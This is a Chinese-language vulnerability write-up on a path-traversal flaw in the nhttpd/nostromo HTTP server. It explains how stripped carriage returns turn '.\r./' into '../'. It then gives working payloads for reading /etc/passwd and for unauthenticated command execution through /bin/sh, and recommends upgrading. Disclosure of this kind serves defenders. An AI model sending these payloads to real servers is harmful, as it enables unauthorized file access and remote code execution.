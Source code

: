 ### 一 漏洞描述
nhttpd 是一个简单、快速和安全的 HTTP 服务器。它作为单个进程运行，使用 select(2) 处理连接。对于 CGI 和目录列表，它执行 fork(2)。nhttpd 实现了最小的 HTTP/1.1 和 CGI​​/1.1。还支持的是；chroot、setuid、基本身份验证、SSL、IPv6、自定义响应、别名和虚拟主机。要停止服务器，请向 PID 发送 SIGTERM 信号。访问日志以标准 CLF 格式编写。
在手册页中阅读更多内容。

注意： 已在 OpenBSD、FreeBSD、NetBSD 和 Linux 上成功完成编译和测试。

没有通过身份验证的攻击者可以强制服务器指向/bin/sh之类的shell文件并执行任意命令。

原理:  
通过’\n’或’\r\n’切分传入的header字符串，当for循环中原始header中出现’\n’，则认为是一行数据的截至，停止对dst变量进行赋值，此时dst变量中存放的为这一行完整的数据。  
但是在windows中，会使用\r\n进行换行。  
为了不把”\r”混入新的一行中，即避免存在”line1\r”情况的出现，程序通过判断原始header中逐位的字符是否是”\r”，若该处字符是”\r”，则continue，不将该字符”\r”赋值给最终的dst变量。  

导致`.\r./.\r./`经过过滤后变为`../../`，绕过了原本的拦截。


### 二 漏洞利用
文件读取  
`/..%0D/..%0D/..%0D/..%0D/..%0D/..%0D/etc/passwd`  
命令执行  
`POST /.%0d./.%0d./.%0d./.%0d./bin/sh HTTP/1.0\r\nContent-Length: 1\r\n\r\necho\necho\n{} 2>&1`

### 三 漏洞修复
升级版本 > 1.9.6

> 参考链接
> http://www.nazgul.ch/dev_nostromo.html  
> 分析: https://xz.aliyun.com/t/6745  
> https://blog.csdn.net/NOSEC2019/article/details/102687878
